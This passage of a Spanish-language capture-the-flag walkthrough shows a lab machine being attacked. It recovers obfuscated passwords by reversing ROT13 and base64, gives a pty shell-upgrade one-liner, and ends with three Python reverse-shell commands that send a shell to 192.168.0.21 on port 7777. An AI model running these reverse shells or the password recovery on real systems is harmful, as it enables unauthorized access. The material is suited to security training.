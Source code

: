 ```
python
python2
python2.6
[...]
wget
```

python -c 'import pty; pty.spawn("/bin/bash")'


El mensaje hace énfasis en que se eescriba la ruta completa, en algunas pruebas dice esto:
```
command did not start with /home/admin or /usr/bin
command did not start with /home/admin or /usr/bin
command did not start with /home/admin or /usr/bin
[...]
```



Dado que sabemos lo que hace el script que trato las contraseñas encontradas en los archivos `.txt`, podemos obtenerla en texto claro.
La contraseña escondida en `whoisyourgodnow.txt` la desofuscamos de la siguiente forma:

```python
$python3
Python 3.11.2 (main, Apr 28 2025, 14:11:48) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import base64, codecs
>>> ofuscada = '=RFn0AKnlMHMPIzpyuTI0ITG'
>>> tira_rot13 = codecs.decode(ofuscada, 'rot13')
>>> reverse_str = tira_rot13[::-1]
>>> original = base64.b64decode(reverse_str).decode()
>>> print(original)
LetThereBeFristi!
>>> 
```

Como obtuvimos dos contraseñas ofuscadas, volvimos a aplicar este proceso. 
La contraseña escondida en `cryptedpass.txt` resulto ser `thisisalsopw123`

```python
/usr/bin/python -c '
import socket,subprocess,os;
s=socket.socket();
s.connect(("192.168.0.21",7777));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh"])
'


/usr/bin/python2 -c '
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.0.21",7777));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty; pty.spawn("sh")
'

export RHOST="192.168.0.21" && export RPORT=7777 && /usr/bin/python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'


```
